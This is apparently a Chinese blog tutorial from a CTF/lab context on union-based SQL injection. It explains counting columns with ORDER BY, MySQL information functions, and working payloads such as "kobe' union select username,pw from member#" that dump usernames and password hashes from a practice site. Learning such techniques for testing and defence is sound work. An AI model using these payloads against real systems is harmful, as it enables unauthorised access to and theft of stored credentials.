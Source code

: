 ```yaml
---
layout: post
title: "基于 union 的信息获取"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


## union 联合查询

union 联合命令：

- 用于合并两个或多个 SELECT 语句的结果集，并返回合并后的结果集。

用法举例:

```sql
select username,password from user where id=1 union select 字段1,字段2 from 表名
select username,password from user where id=1 union select 命令1,命令2
```

**_注意联合命令的字段数命令数需要和主查询一致!_**
那么我们怎么知道主查询有多少字段数呢？

## order by 排序

使用**order by**方法，对查询结果进行排序，示例如下：

```sql
select id,email from member where username='kobe' order by 1;
```

该语句后面跟上`order by 1`，表示对**查询结果**按**1 字段**进行排序
**_如果我们写了`order by 3`，实际上查询结果只有 2 个字段，那么会报错！！_**
以字符型注入为例，我们输入`kobe' order by 3#`
![sql_orderby_1.png](image/sql_orderby_1.png)
报错信息为：

```sql
Unknown column '3' in 'order clause'
```

表示没有第三个字段，标明字段数`<3`
输入`kobe' order by 2#`
![sql_orderby_2.png](image/sql_orderby_2.png)
正常输出结果，表示有`>=2`个字段
`<3`,`>=2`,说明字段数为`2`
一个个试就能试出来了

## mysql 命令补充

```sql
Select version(); //取的数据库版本
Select database();//取得当前的数据库
Select user(); //取得当前登录的用户
```

## 总结

1. 通过`order by`方法知道主查询**字段数**

```sql
select id,email from member where username='kobe' order by 3;
```

2. 尝试`union`联合查询，看看能不能得到更多信息

```sql
#比如username、password、id、email、phone之类的同一表下其他信息
#需要通过information_schema拿到信息
select id,email from member where username='kobe' union select 字段1,字段2 from 表名
#数据库信息，比如version()、database()、user()
select id,email from member where username='kobe' union select 命令1,命令2
```

## 具体操作

以字符型注入为例，我们输入以下代码：

```sql
kobe' union select username,pw from member#
#返回了username和pw的md5值
```

![sql_union_1.png](image/sql_union_1.png)

```sql
kobe' union select version(),database()#
#返回了数据库版本号`5.7.26`和当前数据库名`root`
```

![sql_union_2.png](image/sql_union_2.png)
